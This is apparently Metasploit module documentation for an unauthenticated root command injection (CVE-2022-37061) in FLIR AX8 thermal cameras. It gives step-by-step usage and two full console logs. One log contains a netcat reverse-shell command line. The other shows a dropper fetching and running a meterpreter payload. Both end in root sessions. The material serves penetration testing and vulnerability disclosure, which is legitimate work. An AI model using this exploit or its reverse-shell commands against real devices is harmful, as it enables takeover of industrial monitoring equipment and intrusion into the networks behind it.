 ## Vulnerable Application

FLIR AX8 is a thermal sensor with imaging capabilities, combining thermal and visual cameras
that provides continuous temperature monitoring and alarming for critical electrical and mechanical equipment.
This device is typically used for monitoring industrial environments in a LAN based configuration.
Occasionally you can find a FLIR AX8 device where the HTTP web interface is exposed to the public internet.

FLIR AX8 is affected by an unauthenticated remote command injection vulnerability.
This can be exploited to inject and execute arbitrary shell commands as the root user through the `id` HTTP POST parameter
in `res.php` endpoint.
A successful exploit could allow the attacker to execute arbitrary commands on the underlying operating system with the root privileges.
This issue affects all FLIR AX8 thermal sensor cameras version up to and including `1.46.16`.

The endpoint `/res.php` can be called remotely without user authentication as there is no cookie verification `Cookie: PHPSESSID=ID`
to check if the request is legitimate. The second problem is that the POST parameter id can be injected to execute any unix command.

Installing a vulnerable test bed requires a FLIR AX8 camera with the vulnerable firmware loaded.

This module has been tested against a FLIR AX8 camera with the specifications listed below:

* FLIR AX8 thermal camera
* Firmware v1.40.16

## Verification Steps

1. `use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `netcat` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### FLIR AX8 netcat reverse shell

```
msf6 > use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > options

Module options (exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all add
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting    Required  Description
   ----   ---------------    --------  -----------
   LHOST                     yes       The listen address (an interface may be specified)
   LPORT                     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lport 4444
lport => 4444
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set target 0
target => 0
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited!
[*] Performing command injection test issuing a sleep command of 10 seconds.
[*] Elapsed time: 10.947262728999704 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command with mkfifo /tmp/eyhxvh; nc 192.168.100.7 4444 0</tmp/eyhxvh | /bin/sh >/tmp/eyhxvh 2>&1; rm /tmp/eyhxvh
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:37980) at 2022-10-21 07:00:16 +0000

whoami
root
uname -a
Linux neco 3.0.35-flir #1 PREEMPT Thu Oct 20 08:20:20 CET 2022 armv7l GNU/Linux
exit
```

### FLIR AX8 meterpreter session

```
msf6 > use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > options

Module options (exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to li>
                                       resses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting    Required  Description
   ----   ---------------    --------  -----------
   LHOST                     yes       The listen address (an interface may be specified)
   LPORT                     yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set lport 4444
lport => 4444
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > set target 1
target => 1
msf6 exploit(linux/http/flir_ax8_unauth_rce_cve_2022_37061) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited!
[*] Performing command injection test issuing a sleep command of 7 seconds.
[*] Elapsed time: 7.929586360999565 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper
[*] Using URL: http://0.0.0.0:8080/GOCjBdalaU
[*] Client 127.0.0.1 (curl/7.33.0) requested /GOCjBdalaU
[*] Sending payload to 127.0.0.1 (curl/7.33.0)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:56540) at 2022-10-21 07:02:57 +0000
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.180
OS           :  (Linux neco 3.0.35-flir)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
Staged payloads like `linux/armle/meterpreter/reverse_tcp` or `linux/armle/shell/reverse_tcp` do not work.
Manually tested these payloads with `msfvenom`, but they produce segmentation faults when executed on the target.
However stageless payloads such as `linux/armle/meterpreter_reverse_tcp` and `linux/armle/shell_reverse_tcp` are working.
